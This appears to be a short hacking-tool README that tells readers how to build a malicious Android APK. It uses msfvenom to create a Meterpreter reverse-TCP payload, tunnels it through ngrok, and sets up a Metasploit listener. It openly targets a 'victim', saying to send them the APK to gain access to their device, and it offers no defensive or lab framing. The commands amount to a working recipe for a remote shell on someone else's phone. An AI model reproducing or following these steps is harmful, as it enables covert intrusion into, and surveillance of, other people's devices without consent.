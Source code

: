 4ndr0H4ck By Anonymous2309                                       
If you follow every step, you can definitely get access to your victim's android or windows device
Requirements:
<br>
<p>1.metasploit-framework</p>
<p>How to install <b>metasploit-framework</b> (if you don't have it)</p><br>
<p>1.Download Metasploit from <a href="https://metasploit.com">metasploit.com</a> or <a href="https://windows.metasploit.com/metasploitframework-latest.msi">Click here (windows users) </a>or <a href="https://apt.metasploit.com/pool/main/m/metasploit-framework/metasploit-framework_6.0.32%2B20210224103612.git.2.2d289bf~1rapid7-1_armhf.deb">Click here (linux users)</a><br>
2.Add msf to path<br>
3.Download ngrok and navigate to the folder where you downloaded it<br>
4.Start a tcp server by typing in cmd "ngrok tcp 4242"<br>
6.Open a new cmd or terminal and type the following command "<kbd>msfvenom -p android/meterpreter/reverse_tcp lhost=<ngrok lhost eg.0.tcp.ngrok.io> lport=<ngrok lport port after lhost> r> payload_name.apk</kbd>"<br>
7.Wait for the payload to be created<br>
8.6.Type "<kbd>msfconsole</kbd>"<br>
9.Wait for a few seconds<br>
10.type "<kbd>use exploit/multi/handler</kbd>"<br>
11.type "<kbd>set payload android/meterpreter/reverse_tcp</kbd>"<br>
12.type "<kbd>set lhost 0.0.0.0 (for WAN) or your_ip_addr (for LAN)<kbd><br>
13.type "<code>set lport 4242</code>"<br>
15.Hurrayy! You have successfully created a malicious apk<br>
16.Send this apk to your victim<br>
17.Type help to get all the commands and their usage.
18.Don't forget to follow me
19.<a href="https://instagram.com/programmer.launda">Follow me on Instagram</a>

